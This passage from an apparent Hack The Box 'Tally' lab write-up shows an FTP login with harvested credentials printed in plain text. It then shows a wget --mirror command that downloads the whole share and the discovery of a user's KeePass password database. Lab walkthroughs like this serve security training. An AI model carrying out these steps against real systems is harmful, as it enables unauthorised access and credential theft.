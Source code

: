 
## Enumeration part 3: FTP


We can now connect to FTP with our found credentials:

```aaa
User: ftp_user
Pass: UTDRSCH53c"$6hys
```

```aaa
ftp> open 10.10.10.59
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:baud): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
08-31-17  11:51PM       <DIR>          From-Custodian
10-01-17  11:37PM       <DIR>          Intranet
08-28-17  06:56PM       <DIR>          Logs
09-15-17  09:30PM       <DIR>          To-Upload
09-17-17  09:27PM       <DIR>          User
226 Transfer complete.
```

There are many files on the servers, if we want to take our time to analyse them all with a more comfortable interface instead of the FTP client we can use *wget* to download them all on our box (thank you Ippsec for this method!):

```aaa
┌─[baud@parrot]─[~/tally]
└──╼ $wget --mirror 'ftp://ftp_user:UTDRSCH53c"$6hys@10.10.10.59'
```

After exploring the files for a while something interesting pops up, KeePass files:

```aaa
┌─[baud@parrot]─[~/tally/ftp/10.10.10.59]
└──╼ $ls -la User/Tim/Files/
totale 12
drwxr-xr-x 1 baud baud   74 set  1 23:11 .
drwxr-xr-x 1 baud baud   40 set  1 23:11 ..
-rw-r--r-- 1 baud baud   17 set 15  2017 bonus.txt
drwxr-xr-x 1 baud baud  286 set  1 23:11 KeePass-2.36
-rw-r--r-- 1 baud baud  152 set  1 23:11 .listing
-rw-r--r-- 1 baud baud 2222 set 15  2017 tim.kdbx
┌─[✗]─[baud@parrot]─[~/tally/ftp/10.10.10.59]
└──╼ $file User/Tim/Files/tim.kdbx
User/Tim/Files/tim.kdbx: Keepass password database 2.x KDBX
```

